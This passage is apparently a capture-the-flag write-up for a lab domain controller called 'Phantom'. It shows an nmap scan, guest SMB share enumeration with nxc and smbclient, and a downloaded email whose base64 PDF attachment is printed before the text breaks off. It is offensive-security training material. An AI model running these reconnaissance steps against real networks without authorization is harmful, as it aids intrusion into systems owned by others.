






## Intial Recon

```Nmap
# Nmap 7.98 scan initiated Fri Nov 13 02:56:26 2026 as: /usr/lib/nmap/nmap -p- -Pn -sC -sV -A -T4 -vv -oN Phantom.txt 10.129.234.63
Nmap scan report for 10.129.234.63
Host is up, received user-set (0.073s latency).
Scanned at 2026-11-13 02:56:26 GMT for 200s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-12 19:58:10Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: PHANTOM
|   NetBIOS_Domain_Name: PHANTOM
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: phantom.vl
|   DNS_Computer_Name: DC.phantom.vl
|   DNS_Tree_Name: phantom.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-12T19:59:05+00:00
|_ssl-date: 2026-11-12T19:59:45+00:00; -6h59m58s from scanner time.
| ssl-cert: Subject: commonName=DC.phantom.vl
| Issuer: commonName=DC.phantom.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-11T19:35:19
| Not valid after:  2027-05-13T19:35:19
| MD5:     5ad4 2d61 b8fd d96f 9462 4328 c48f 5a36
| SHA-1:   f580 6ee3 c308 e04c 4ef5 0186 80b1 1448 c55c e8ec
| SHA-256: e9b5 7abf 70aa ddf9 41f6 a2bb 2b6a 2971 0f0d dc39 981e 2732 29aa 0e15 c930 c133
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQMlwWlfKiJ6dI5usXRzV1WjANBgkqhkiG9w0BAQsFADAY
| MRYwFAYDVQQDEw1EQy5waGFudG9tLnZsMB4XDTI2MTExMTE5MzUxOVoXDTI3MDUx
| MzE5MzUxOVowGDEWMBQGA1UEAxMNREMucGhhbnRvbS52bDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBANbbV7rcmn0rd/m6BUyVLTQd3IeC29DIxHBX2LhE
| ARJYBHfJre0REodEU9nehjzTY0vJbNxIjSPNPUp56llddg1BzA3lxKERjoU5CLS5
| hzuQ4rA2iEqNFbhU2Xm9cLBRoPvsYxFBhvfrRAqFTriuwE3179kStMsZrUgkm6dI
| Ac0QCY8TjSj7/I2J/yCHsXsos2FbNF+ORPPoWrbF98hxa4pcERGdzvMGsXDGU1PR
| ctIepg3IAj5D/IdYi1+NMssY12JT4mOvUJJ18UoDFc8dmFt6MB/aDB5Wkd1N0SVZ
| FyW0zTKq0r5hzQYNRlSfLmmjwJkK0zO1SQ8YGMMfPoew4MECAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IB
| AQAt3gcigIDv2B4uarywNQrHgk9Y2CvcjtXE8hWdn0lOok1mIHCp5VMTmiLWOGBE
| ZbN79frluVUwR6zL7IN5UdqtVLJsxxT8fzYM/7if0guhAc9KZF/kNsOHAuOBO0gL
| 1FrRorHmr45Vkt+fW4sB6p6alyQCOfxMysFs1CToquDToThYga+bFZlVl0N13Xku
| yqq3Ke+P8oiNPU/qgXXN/80ShKNMNK1AyD/UtcZAQxllW3IlBng61brdw5Xl4o0N
| oXazSe4PS3XoxZu9NblhAJOCYx1BzLpY75ddjL+WnwnBTMPqiOsA4TwPQOk2zodo
| o4xzZx6HhVK8M/34CHJZ8AjH
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49378/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49403/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53609/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
53610/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53616/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=11/13%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AF67D22%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=A)
SEQ(SP=FE%GCD=1%ISR=101%TI=I%II=I%SS=S%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.017 days (since Fri Nov 13 02:35:02 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-12T19:59:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 17022/tcp): CLEAN (Timeout)
|   Check 2 (port 29794/tcp): CLEAN (Timeout)
|   Check 3 (port 17084/udp): CLEAN (Timeout)
|   Check 4 (port 48870/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -6h59m58s, deviation: 0s, median: -6h59m58s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   107.07 ms 10.10.16.1
2   107.24 ms 10.129.234.63

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 13 02:59:46 2026 -- 1 IP address (1 host up) scanned in 199.79 seconds
```

then we update the clock skew of our machine to match the `DC

```bash
sudo ntupdate $IP
```

after that we can enumerate the share with using smb using an guest account
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ nxc smb 10.129.234.63  -u "guest" -p "" --shares
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\guest: 
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share                 
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share 
```

we `READ` on public non default share lets enumerate it may find some juicy information haha !

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ smbclient -U "guest" \\\\10.129.234.63\\Public
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 11 16:03:14 2024
  ..                                DHS        0  Thu Aug 14 12:55:49 2025
  tech_support_email.eml              A    14565  Sat Jul  6 17:08:43 2024

                6127103 blocks of size 4096. 2383133 blocks available
smb: \> wget 
Phantom.txt             tech_support_email.eml  test.txt                users                   
smb: \> get tech_support_email.eml 
getting file \tech_support_email.eml of size 14565 as tech_support_email.eml (54.3 KiloBytes/sec) (average 54.3 KiloBytes/sec)
smb: \> 
```

we can download the file and check we can see an base64 blob attached which is an pdf 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom]
└─$ cat tech_support_email.eml 
Content-Type: multipart/mixed; boundary="===============6932979162079994354=="
MIME-Version: 1.0
From: alucas@phantom.vl
To: techsupport@phantom.vl
Date: Sat, 06 Jul 2024 12:02:39 -0000
Subject: New Welcome Email Template for New Employees

--===============6932979162079994354==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit


Dear Tech Support Team,

I have finished the new welcome email template for onboarding new employees.

Please find attached the example template. Kindly start using this template for all new employees.

Best regards,
Anthony Lucas
    
--===============6932979162079994354==
Content-Type: application/pdf
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="welcome_template.pdf"

JVBERi0xLjcKJcOkw7zDtsOfCjIgMCBvYmoKPDwvTGVuZ3RoIDMgMCBSL0ZpbHRlci9GbGF0ZURl
Y29kZT4+CnN0cmVhbQp4nI1Vy4rcMBC8+yt0zsFTXZYsGcyAJY8hgT0sGcgh5LBksyE5LGRYyO+H
bnsfM7OeyckvSdVV1dVGLe5vtRkOT78e7r4/uXxTqj8ODjWYXCtSd1Fc7Obr4Uf15YN7rHY3pdp8
frp7vL873Pf95qZ8HB222zwuux3c4WeV91Vo6+SioPbB7e/dZhIndPuHrz1kK7EH0cAjoAURkRAQ
0WFARrGnFuP22/5TtdtXt+/jyipum1inY9weOxAZE6JARCiNeAnb/e8LCFxHCKHmKrNoQHqltPCi
/CjpheeALJ1+lwFBMiICCqIUBN0pSa5xb9YrY6zbE+6yM7mDTK+lLdCqRyZAvYPXb5JANUF0bUNQ
Lqvk12sBapzUQi5oBVnNp6gjJBvx9P/rTFjFDKk9daZHh0wQMiGovIqpzUaVPbFFy8iExIAJCeNl
7HYdO6Qz7dGh0c4z1lFdYIcoUQ2f2+HVCWR4DYXMITBndKXuQMIALqe865OMiByUIaKt83qqNp8M
iOa6VhFQCGZEsT4gkDDZ2w6NrrzMPq6z9/48dYoxx1yDXpYQaMzTm/b3c/DZHXcmy7FvppudJDNr
VcBqRuZoT9PR/lEiJmO4KK9qyhV/0zpDiWe9xR3HN0xeoq18tDJOks03rdi0t7ir2wVcxsLMcvZC
vfegOsRRV6Cxu8nun0eIuWm6RUN+HS7P3CGZhQVzT9sIssTNul1xuVvXAM3pTO/tbI/hGJPq35uB
LqN0aC7jyvrPxMdw1l462BZ7J5DdPD21va/ArP87fMvTmfW1b6DhO/tDRZ33DbYi6Gd1j8f2rfsH
gCembQplbmRzdHJlYW0KZW5kb2JqCgozIDAgb2JqCjYxNwplbmRvYmoKCjE2IDAgb2JqCjw8L0xl
bmd0aCAxNyAwIFIvRmlsdGVyL0ZsYXRlRGVjb2RlL0xlbmd0aDEgODQwOD4+CnN0cmVhbQp4nN1Z
eVwT1/Y/d5ZEXNAIAawsE8JeCEpYCrZYbF1wAQUEtXUJyUCiIZNmBhStYtyq1qWuffiQ1rWWp9Za
1Grrvis+tetr7etml9/zWWut7WuBDL/PvTMg2uXze//+kHxy5t5zzz3nfL/n3DsoeSp56ApzgQbO
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
